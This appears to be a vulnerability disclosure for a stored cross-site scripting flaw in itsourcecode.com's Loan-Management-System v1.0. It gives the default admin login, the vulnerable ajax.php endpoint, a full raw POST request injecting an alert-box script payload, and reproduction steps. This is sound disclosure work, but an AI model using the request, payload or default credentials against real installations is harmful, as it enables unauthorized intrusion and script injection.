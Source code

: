 # Loan-Management-System v1.0 by itsourcecode.com has Cross-site Scripting (XSS)
Vul_Author: Kai Wang

Login Account:admin   Password:admin123

vendors: https://itsourcecode.com/free-projects/php-project/loan-management-system-project-in-php-with-source-code/

Vulnerability File: /Loan/ajax.php

Vulnerability location: /Loan/ajax.php?action=save_loan_type HTTP/1.1

[+] Payload: <script>alert(1)</script>

Tested on Windows 10, phpStudy

There is an example with alert:
```
POST /Loan/ajax.php?action=save_loan_type HTTP/1.1
Host: 10.12.180.79
Content-Length: 362
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36 Edg/111.0.1661.41
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl0Dh1LXu5fRCTYLI
Origin: http://10.12.180.79
Referer: http://10.12.180.79/Loan/index.php?page=loan_type
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=d4me9tekbcuef2k8k1qupv9i0t
Connection: close

------WebKitFormBoundaryl0Dh1LXu5fRCTYLI
Content-Disposition: form-data; name="id"


------WebKitFormBoundaryl0Dh1LXu5fRCTYLI
Content-Disposition: form-data; name="type_name"

<script>alert(1)</script>
------WebKitFormBoundaryl0Dh1LXu5fRCTYLI
Content-Disposition: form-data; name="description"

test loans
------WebKitFormBoundaryl0Dh1LXu5fRCTYLI--
```


Get into the Loan Types page,click the edit button as shown in the image

![image](https://user-images.githubusercontent.com/56795018/221339147-dee0f0e8-3799-406e-a190-ac58d29b096f.png)

input a XSS script in the 'Type' input box

![image](https://user-images.githubusercontent.com/56795018/221339277-9fcefc71-3428-4859-8c90-75244b37aef6.png)

click save and you will see an alert

![image](https://user-images.githubusercontent.com/56795018/221339321-fa21ee0e-3d78-42e2-9bc9-5a6df8dfd3d6.png)
